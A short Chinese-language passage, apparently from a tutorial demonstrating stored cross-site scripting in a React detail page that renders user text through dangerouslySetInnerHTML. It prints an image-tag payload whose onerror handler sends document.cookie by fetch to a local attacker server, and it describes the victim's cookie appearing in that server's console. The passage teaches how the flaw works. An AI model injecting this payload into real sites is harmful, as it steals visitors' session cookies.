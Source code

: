 在文本域中注入以下脚本:

```html
<img src="none" style="display:none" onerror="fetch('http://127.0.0.1:2222/receive/' + encodeURIComponent(document.cookie))" />
```

点击提交按钮即可。

详情页:

![image](https://raw.githubusercontent.com/WebUnion-core/anthill/master/WJT20/images/w139.png)

详情页使用`dangerouslySetInnerHTML`接收详情接口返回的文本内容，任何用户都可以访问详情页，用户访问详情时，看不到任何内容，但是恶意代码已经将用户的 cookie 通过 fetch 请求的形式发送给了攻击者服务器。

回头看看攻击者的服务器，控制台已经打印出了受害者的 cookie:

![image](https://raw.githubusercontent.com/WebUnion-core/anthill/master/WJT20/images/w140.png)
